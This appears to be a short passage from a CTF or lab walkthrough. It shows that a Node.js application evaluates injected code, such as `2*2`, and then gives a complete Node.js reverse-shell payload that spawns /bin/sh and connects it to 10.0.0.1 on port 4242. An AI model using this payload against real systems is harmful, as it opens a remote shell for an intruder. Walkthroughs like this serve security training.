 Then we can see that's useful for running `2*2`.

<img src="../Images/image-20230813184145681.png" alt="image-20230813184145681" style="zoom:80%;" />

Now try to use node.js rev shell.

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
